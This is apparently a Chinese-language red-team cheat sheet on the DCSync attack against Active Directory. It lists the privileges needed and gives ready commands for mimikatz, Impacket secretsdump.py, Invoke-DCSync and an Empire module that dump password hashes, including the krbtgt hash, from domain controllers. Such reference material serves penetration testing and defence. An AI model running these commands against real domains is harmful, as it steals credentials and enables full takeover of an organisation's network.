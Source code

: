 ```yaml
---
description: 横向移动 / 滥用身份验证 / 模拟域控同步敏感信息
---
```


# ✔️ DCSync攻击 - Domain Controller Synchronization

## 先决条件

* 需要获取到目标域内一个有效的域账户
* 该账户需要有足够高的权限，因为需要模拟域控之间的数据同步行为
  * Administrators组成员
  * 域管理员组成员
* 需要能够与目标域内的域控建立通信

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 指定要同步的目标账户
lsadump::dcsync /user:administrator
lsadump::dcsync /user:krbtgt
lsadump::dcsync /all /csv
# 获取Hash NTLM字段的值
```

### Impacket

* 常用脚本：**secretsdump.py**

```bash
# 要同步的目标账户：krbtgt
python3 secretsdump.py -just-dc-user krbtgt target.com/username:password@192.168.xxx.xxx
# 同步所有账户的hash
python3 secretsdump.py -just-dc target.com/username:password@192.168.xxx.xxx
```

### Powershell

* 常用脚本：Invocke-DCSync.ps1

```powershell
Import-Moudle .\Invoke-DCSync.ps1
# 获取到指定目标账户的hash: krbtgt
Invoke-DCSync -DumpForest -Users @("krbtgt") | ft -wrap -autosize
# 获取到所有域内账户的hash
Invoke-DCSync -DumpForest | ft -wrap -autosize
# Emipre的相关模块（和mimikatz类似）
usemodule credentials/mimikatz/dcsync
```

{% hint style="info" %}
DCSync攻击的本质是利用了AD本身的功能，攻方模拟一个有复制权限的域控向目标内网中的其他域控发出同步数据的请求，以获取到特定的高权限的账户的密码哈希和其他敏感信息。其过程是利用的合法的DC同步功能，没有其他恶意操作
{% endhint %}
